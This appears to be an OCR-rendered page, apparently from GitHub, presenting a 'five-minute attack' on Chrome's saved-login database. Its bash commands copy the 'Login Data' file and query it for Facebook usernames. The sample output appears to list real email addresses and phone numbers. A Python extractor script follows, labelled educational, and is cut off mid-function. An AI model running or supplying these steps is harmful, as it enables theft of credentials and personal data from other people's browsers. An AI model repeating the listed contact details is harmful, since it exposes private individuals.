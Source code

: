 **The 5-Minute Attack:**

```bash
# 1. Find Chrome profiles
ls ~/.config/google-chrome/

# 2. Kill Chrome
killall chrome

# 3. Copy password database
cp ~/.config/google-chrome/Profile\ 5/Login\ Data /tmp/db.sqlite

# 4. Extract Facebook emails
sqlite3 /tmp/db.sqlite "SELECT username_value FROM logins WHERE origin_url LIKE '%facebook%'"

# Output:
jareye6694@gmail.com
javirobo88@gmail.com
javi reyes
9415652936
6159682825
7182001368
```

**That's it! Emails extracted in under 5 minutes!** ⚡

---

## 🔍 DETAILED STEP-BY-STEP (Technical)

### Complete Python Script:

```python
#!/usr/bin/env python3
"""
Chrome Email Extractor - Educational/Security Research
Demonstrates how attackers extract email addresses from Chrome
"""

import os
import sqlite3
import shutil
import subprocess

def extract_facebook_emails():
    print("🔐 Chrome Email Extraction Demo")
    print("=" * 60)
    
    # Step 1: Locate Chrome profiles
    chrome_base = os.path.expanduser("~/.config/google-chrome/")
    profiles = []
    
    for item in os.listdir(chrome_base):
        login_db = os.path.join(chrome_base, item, "Login Data")
        if os.path.exists(login_db):
            profiles.append((item, login_db))
            print(f"✅ Found profile: {item}")
    
    # Step 2: Close Chrome (unlock database)
    print("\n🔨 Closing Chrome...")
    subprocess.run(['killall', 'chrome'], capture_output=True)
    print("✅ Chrome closed")
    
    # Step 3: Extract from each profile
    all_emails = []
```